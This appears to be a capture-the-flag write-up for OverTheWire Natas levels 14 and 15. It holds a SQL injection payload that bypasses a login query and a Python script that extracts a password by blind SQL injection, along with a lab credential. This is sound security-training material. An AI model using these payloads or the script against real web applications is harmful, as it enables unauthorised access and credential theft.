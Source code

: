 # Level 14

URL: http://natas14.natas.labs.overthewire.org/

The following SQL query is in place

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

A simple SQL injection of the form `" or 1 = 1 #` in the `username` returns always true while commenting out all the other part of the query.

Password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

# Level 15

## Blind SQL injection

URL: http://natas15.natas.labs.overthewire.org/

Redo this one later. Allows only usernames and thus you need to construct the password one character at a time.

```py
import requests
from requests.auth import HTTPBasicAuth

chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
filtered = ''
passwd = ''

for char in chars:
    Data = {'username' : 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
    if 'exists' in r.text :
        filtered = filtered + char

for i in range(0,32):
    for char in filtered:
        Data = {'username' : 'natas16" and password LIKE BINARY "' + passwd + char + '%" #'}
        r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
        if 'exists' in r.text :
            passwd = passwd + char
            print(passwd)
            break

```
